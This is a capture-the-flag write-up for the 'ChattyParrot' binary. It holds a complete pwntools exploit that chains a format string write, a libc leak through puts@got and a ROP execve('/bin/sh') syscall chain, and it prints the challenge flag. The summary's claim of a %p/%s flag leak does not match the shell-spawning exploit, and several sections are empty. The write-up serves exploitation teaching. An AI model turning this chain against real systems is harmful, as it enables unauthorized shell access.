

# ChattyParrot - Writeup

---

## Challenge Description


---

## Exploit Demo

This demo shows the exploitation flow:


---

## Challenge Summary

The `ChattyParrot` binary contains a **format string vulnerability** in the `vuln()` function, where user input is passed to `printf()` without a format specifier. By using `%p` and `%s`, an attacker can **leak memory** and extract the flag stored in the `FLAG_VAL` environment variable. The goal is to craft input that reveals the flag by exploiting this vulnerability.

---

## Binary Information

```bash
$ file ChattyParrot
```


```bash
$ checksec main
```



---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
printf("%s", "Input your phrase:");
printf(buf);  // Format string vulnerability
```

```c
read(0, buf, 0x100uLL);  // User input is read into buffer
```


- The `main()` function retrieves the `FLAG_VAL` environment variable and copies it into `SECRET`.
- It then prompts the user for input and calls `vuln()`.
- In `vuln()`, 256 bytes are read into `buf` using `read(0, buf, 0x100)`.
- The input is then passed directly to `printf(buf)`, causing a format string vulnerability.

---

## Exploit Strategy

### Step 1: Leak Username Address

The binary prints a memory address used as the base to calculate the location of the `username` buffer (via a leaked "Auth Token"). This allows us to:

- Leak the PIE base from the `username` pointer.

- Calculate the address we want to overwrite using the format string.

### Step 2: Format String Exploit

We overwrite the `username` buffer with the string `"/bin/sh\x00"` using `fmtstr_payload`. This is necessary for the `execve("/bin/sh", 0, 0)` syscall later.

### Step 3: Leak libc via puts\@got

We send a ROP chain that calls `puts(puts@got)` and returns to `main`. This gives us:

- The runtime address of `puts`.

- The ability to compute the **libc base** using the known offset of `puts` in libc.

### Step 4: ret2libc — Spawning a Shell

After obtaining the libc base:

- We craft a syscall ROP chain to execute `execve("/bin/sh", NULL, NULL)` using `username_ptr` as the `/bin/sh` pointer.

---

## Exploit Code

```python

#!/usr/bin/env python3

# -*- coding: utf-8 -*-

# This exploit template was generated via:

# $ pwn template

from pwn import *


# Set up pwntools for the correct architecture

exe = context.binary = ELF(args.EXE or 'main')


# Many built-in settings can be controlled on the command-line and show up

# in "args".  For example, to dump all data sent/received, and disable ASLR

# for all created processes...

# ./exploit.py DEBUG NOASLR


# Use the specified remote libc version unless explicitly told to use the

# local system version with the `LOCAL_LIBC` argument.

# ./exploit.py LOCAL LOCAL_LIBC

if args.LOCAL_LIBC:

    libc = exe.libc

else:

    library_path = libcdb.download_libraries('libc.so.6')

    if library_path:

        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)

        libc = exe.libc

    else:

        libc = ELF('libc.so.6')


def start(argv=[], *a, **kw):

    '''Start the exploit against the target.'''

    if args.GDB:

        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)

    else:

        return process([exe.path] + argv, *a, **kw)


# Specify your GDB script here for debugging

# GDB will be launched if the exploit is run via e.g.

# ./exploit.py GDB

gdbscript = '''

tbreak main

continue

'''.format(**locals())


#===========================================================

#                    EXPLOIT GOES HERE

#===========================================================

# Arch:     amd64-64-little

# RELRO:      Full RELRO

# Stack:      No canary found

# NX:         NX enabled

# PIE:        PIE enabled

# Stripped:   No


io = start()


# -----------------------[STEP 1 : LEAK USERNAME ADDRESS AND EXE_BASE ADDRESS]-----------------------

io.recvuntil(b">> Auth Token = ")

username_ptr = io.recvline().strip()

username_ptr = int(username_ptr,16)


exe.address = username_ptr - exe.sym['username']


log.info(f"username@ : {hex(username_ptr)}")

log.info(f"exe.base@ : {hex(exe.address)}")


# ------------------[STEP 2 : OVERWRITE USERNAME WITH /BIN/SH USING FMTSTR_PAYLOAD]------------------


io.recvuntil(b">> [C2] Enter your callsign to proceed:")


payload=fmtstr_payload(6, {username_ptr:u64(b"/bin/sh\x00")})

io.sendline(payload)


# -----------------------[STEP 3 : LEAK LIBC_BASE ADDRESS USING PUTS(PUTS@GOT)]-----------------------

rop = ROP(exe)

rop.call(exe.plt['puts'], [exe.got['puts']])

rop.call(exe.symbols['main'])


offset = 88


payload = flat(

    b'A' * offset,

    rop.chain()

)


io.sendline(payload)


for i in range(0,4):

    io.recvline()


leak=io.recvline()

leaked_puts = u64(leak[:-1].ljust(8, b'\x00'))

log.success(f"Leaked puts@libc: {hex(leaked_puts)}")

libc.address = leaked_puts - libc.symbols['puts']

log.success(f"Libc base: {hex(libc.address)}")


# ---------------------------------------[STEP 4 : RET2LIBC ]---------------------------------------

rop = ROP([exe, libc])


pop_rax       = rop.find_gadget(['pop rax', 'ret'])[0]

pop_rdi       = rop.find_gadget(['pop rdi', 'ret'])[0]

pop_rsi_r15   = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]


syscall_gadget = rop.find_gadget(['syscall'])[0]

ret = rop.find_gadget(['ret'])[0]


io.sendline(b'%p.%p.')

io.recvuntil(b">> [C2] Access granted. Standby for remote operation sequence...")


offset = 88

payload = b"A" * offset


payload += p64(pop_rdi)

payload += p64(username_ptr)


payload += p64(pop_rsi_r15)

payload += p64(0)

payload += p64(0)

payload += p64(pop_rax)

payload += p64(59)

payload += p64(syscall_gadget)


io.sendline(payload)


io.interactive()


```

---

## Exploit Output


---

## Vulnerability Summary

| Protection   | Status      |

| ------------ | ----------- |

| RELRO        | Full RELRO  |

| Stack Canary | Not Present |

| NX           | Enabled     |

| PIE          | Enabled     |

| Stripped     | No          |

- Format string vulnerability enables arbitrary write

- ROP used to leak libc and execute a syscall chain

- Final payload uses ret2libc to run `/bin/sh`

---

## Flag

```

RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}

```
